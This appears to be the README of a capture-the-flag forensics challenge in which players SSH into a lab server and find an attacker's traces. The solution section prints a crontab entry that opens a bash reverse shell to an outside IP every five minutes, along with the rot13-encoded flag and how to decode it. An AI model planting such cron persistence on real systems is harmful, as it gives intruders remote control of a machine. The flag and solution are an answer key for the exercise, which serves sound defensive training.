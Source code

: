 # Intrusion

A challenge where user SSHs into a machine and tries to find out what an attacker did in the server. 

### Task

The user should find a reverse shell in Charlie user's crontab aswell as a comment with a flag. The flag is rot13 encoded
so that it cannot be easily grepped.

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

**TODO: Make the steps more detailed**

1. The flag is stored in charlie's crontab in rot13 encoded form
```bash
root@hackerlab:~# ssh root@172.20.0.41 
root@172.20.0.41's password: 
Linux fd1dd0993ceb 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 16 21:07:38 2024 from 172.20.0.2

root@fd1dd0993ceb:~# su charlie
charlie@fd1dd0993ceb:/root$ crontab -l
# Leave me here! OFL{9xCyoIOLhJgFkx6Bd62NNhLPyvaMp0PLnlZwSFq5BHccDkKCGLgT9uNnOwwW}
*/5 * * * * /bin/bash -c "/bin/bash -i >& /dev/tcp/172.20.0.10/678 0>&1"
```
2. Decode using eg. [cyberchef](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=T0ZMezl4Q3lvSU9MaEpnRmt4NkJkNjJOTmhMUHl2YU1wMFBMbmxad1NGcTVCSGNjRGtLQ0dMZ1Q5dU5uT3d3V30)

</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
